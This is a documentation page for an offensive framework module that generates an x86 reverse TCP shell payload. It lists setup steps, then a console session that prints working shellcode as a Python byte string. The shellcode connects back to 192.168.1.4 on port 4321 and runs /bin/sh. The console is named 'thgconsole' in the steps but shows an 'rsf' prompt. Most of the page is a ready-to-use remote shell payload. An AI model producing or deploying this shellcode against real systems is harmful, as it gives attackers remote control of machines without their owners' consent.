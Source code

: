 ## Description

Module generates payload that creates interactive tcp reverse shell for X86 architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/x86/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates x86 reverse shell tcp payload

## Scenarios

```
rsf > use payloads/x86/reverse_tcp
rsf (X86 Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (X86 Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (X86 Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x04\x68"
    "\x02\x00\x10\xe1\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
)
```
